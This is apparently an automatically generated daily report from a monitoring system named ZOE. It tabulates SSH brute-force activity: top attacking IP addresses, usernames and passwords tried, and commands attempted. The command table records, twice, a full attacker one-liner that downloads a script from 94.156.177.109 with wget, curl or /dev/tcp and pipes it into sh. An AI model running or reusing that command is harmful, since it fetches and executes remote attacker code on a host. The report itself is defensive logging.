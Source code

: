 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 39.106.154.35 | 9676 |
| 59.110.161.252 | 5241 |
| 47.237.6.142 | 4648 |
| 8.134.88.215 | 4417 |
| 8.213.150.160 | 4184 |
| 8.217.10.15 | 2057 |
| 81.0.248.203 | 1345 |
| 47.104.135.12 | 1204 |
| 182.52.90.208 | 831 |
| 8.130.102.128 | 338 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 1260 |
| app3 | 317 |
| ubuntu | 110 |
| admin | 100 |
| test | 84 |
| postgres | 81 |
| sysadmin | 53 |
| user | 47 |
| iptv | 32 |
| odoo | 27 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 161 |
| password | 58 |
| 111111 | 53 |
| P@ssw0rd | 49 |
| root | 43 |
| admin | 38 |
| 123 | 32 |
| 12345 | 29 |
| test | 28 |
| 1 | 21 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 182.92.153.226 | uname -s -m |
| 5.182.211.148 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 5.182.211.148 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 182.92.219.129 | uname -s -m |
